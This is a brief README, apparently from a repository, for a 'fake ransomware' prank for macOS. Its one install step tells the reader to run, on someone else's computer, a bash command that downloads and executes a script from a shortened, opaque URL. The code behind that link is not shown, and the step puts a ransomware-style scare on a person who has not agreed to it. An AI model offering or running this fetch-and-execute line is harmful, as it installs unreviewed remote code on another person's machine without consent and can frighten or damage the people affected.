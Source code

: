 # April Fools Ransomware
A FAKE ransomware for macOS, useful for pranks.
# ⬇️ Installation
Run this on the computer you want to prank
```/bin/bash -c "$(curl -fsSL http://bitly.ws/qhXI)"```
